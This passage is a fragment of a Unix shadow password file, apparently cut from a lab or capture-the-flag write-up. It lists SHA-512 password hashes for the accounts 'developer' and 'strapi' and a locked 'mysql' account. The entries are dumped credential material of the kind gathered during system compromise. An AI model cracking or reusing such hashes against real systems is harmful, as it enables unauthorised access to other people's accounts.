developer:$6$XWN/h2.z$Y6PfR1h7vDa5Hu8iHl4wo5PkWe/HWqdmDdWaCECJjvta71eNYMf9BhHCHiQ48c9FMlP4Srv/Dp6LtcbjrcVW40:18779:0:99999:7:::
mysql:!:18772:0:99999:7:::
strapi:$6$a9mzQsIs$YENaG2S/H/9aqnHRl.6Qg68lCYU9/nDxvpV0xYOn6seH.JSGtU6zqu0OhR6qy8bATowftM4qBJ2ZA5x9EDSUR.:18782:0:99999:7:::
```
